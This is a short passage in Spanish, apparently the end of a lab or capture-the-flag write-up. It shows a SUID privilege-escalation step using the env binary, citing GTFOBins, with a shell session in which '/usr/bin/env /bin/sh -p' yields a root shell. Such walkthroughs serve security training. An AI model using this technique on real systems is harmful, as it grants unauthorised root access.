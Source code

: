 Encuentra el binario **env.** Como vemos en [GTFOBins env](https://gtfobins.github.io/gtfobins/env/#suid) se puede escalar privilegios de la siguiente manera:

```bash
russoski@28c41160317a:~$ /usr/bin/env /bin/sh -p
# whoami
root
#
```

Y de esta manera hemos terminado el laboratorio
